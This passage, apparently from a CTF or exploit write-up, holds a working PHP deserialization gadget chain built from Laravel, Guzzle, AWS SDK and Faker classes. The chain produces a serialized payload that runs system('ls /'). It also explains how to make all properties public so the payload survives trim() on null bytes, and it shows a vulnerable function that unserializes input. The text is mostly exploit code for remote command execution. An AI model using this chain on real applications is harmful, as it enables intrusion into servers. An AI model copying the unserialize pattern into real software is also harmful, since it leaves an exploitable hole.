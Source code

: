 ```php
        }
    }
}

namespace Illuminate\Broadcasting{
    class PendingBroadcast {
        protected $events;
        protected $event;
        protected $a;
        public function __construct($a,$b)
        {
            $this->events = $a;
            $this->event = $b;
            $this->a = array();
        }
    }
}

namespace {
    use Illuminate\Broadcasting;
    use GuzzleHttp\Psr7;
    use League\Flysystem;
    use Illuminate\Support;
    $obj = new Illuminate\Broadcasting\PendingBroadcast(
        new Illuminate\Support\HigherOrderCollectionProxy(
            new Aws\HashingStream(
                new Faker\DefaultGenerator("ls /"),
                "system",
                new GuzzleHttp\Psr7\BufferStream("")
            ),"read"
        ),1
    );

    echo urlencode(serialize($obj));
}

?>
```

Adopted Exploit for `hs_unserialize()` : 

We are encountering null byte issues during the serialization of private and protected properties. This results in serialized data containing sequences like s:3":%00a%00", where applying trim() leaves us with s:3:"a", ultimately affecting the data length and causing unserialization to fail.

As a solution, PHP 7.1 and later offer a way to handle this. In these versions, member property names in a class are not case-sensitive, allowing you to convert all properties to public without impacting functionality. By making this change, null bytes are no longer introduced during serialization, enabling seamless deserialization while maintaining intended behavior.


```php
<?php
require __DIR__.'/vendor/autoload.php';

function sanitize_serialize($var, $default=[])
{
    $var = trim($var);
    echo $var;
    if (is_string($var) && !empty($var)) {
        return unserialize($var);
    } else {
        return $default;
    }
}
```